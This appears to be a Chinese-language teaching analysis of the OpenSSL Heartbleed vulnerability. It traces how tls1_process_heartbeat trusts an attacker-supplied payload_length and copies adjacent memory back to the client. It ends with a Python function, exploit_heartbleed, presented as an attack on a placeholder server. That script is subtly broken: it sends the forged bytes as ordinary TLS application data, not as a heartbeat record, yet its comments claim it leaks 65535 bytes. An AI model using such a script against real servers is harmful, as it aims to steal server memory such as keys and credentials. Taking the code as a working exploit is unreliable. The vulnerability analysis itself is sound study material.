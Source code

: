 
#### **6. 数据读取后处理**
```c
rb->offset += n;        // 更新缓冲区偏移
rb->left = left - n;    // 更新剩余未消费字节
s->packet_length += n;  // 更新当前包长度
s->rwstate = SSL_NOTHING;  // 重置读写状态
return n;  // 返回实际读取的字节数
```
- **状态更新**：记录已读数据偏移量，为下一次读取做准备。
- **资源释放**：若启用 `SSL_MODE_RELEASE_BUFFERS` 且缓冲区为空，释放内存（针对非 DTLS）。






#### tls1_process_heartbeat(SSL * s);
* `tls1_process_heartbeat(s)` 处理 Heartbeat 逻辑
* source：tls1_process_heartbeat函数输入值SSL * s **为客户端发送的数据** ——> unsigned char * p = &s->s3->rrec.data[0]; 
-   `n2s(p, payload_length)`：**从客户端数据中提取长度（攻击者发送虚假心跳请求，声明`payload_length`为最大值65535），但未检查实际数据是否足够。**
- bp是一个指向buffer的指针，初始化时指向 `buffer` 的起始位置。它用于在后续的 `memcpy` 调用中作为数据拷贝的目标指针。
- `memcpy(bp, p, payload_length)`：直接复制`payload_length`字节，若实际数据不足，将读取相邻内存内容。**p 可能指向不足 payload_length 的数据。**
- sink：**ssl3_write_bytes将缓冲区数据发送回客户端（包含越界内存内容）**

### **三、攻击模拟代码（Python示例）**

```python
import socket
import ssl
from struct import pack

def exploit_heartbleed(host, port=443):
    # 构造恶意心跳请求（声明长度65535，实际 payload 仅 1 字节）
    payload = b"\x01"  # 心跳类型：请求
    payload += pack(">H", 65535)  # 伪造 payload_length=65535
    payload += b"X"  # 实际 payload 只有 1 字节

    # 发送恶意请求
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    ssl_sock = ssl.wrap_socket(sock, ssl_version=ssl.PROTOCOL_TLSv1)
    ssl_sock.connect((host, port))
    ssl_sock.send(payload)

    response = ssl_sock.recv(65535)  # 接收服务端返回的 65535+ 字节数据
    print("泄漏的内存数据:", response)

    ssl_sock.close()

# 示例：攻击存在漏洞的服务器
exploit_heartbleed("vulnerable.example.com")
```

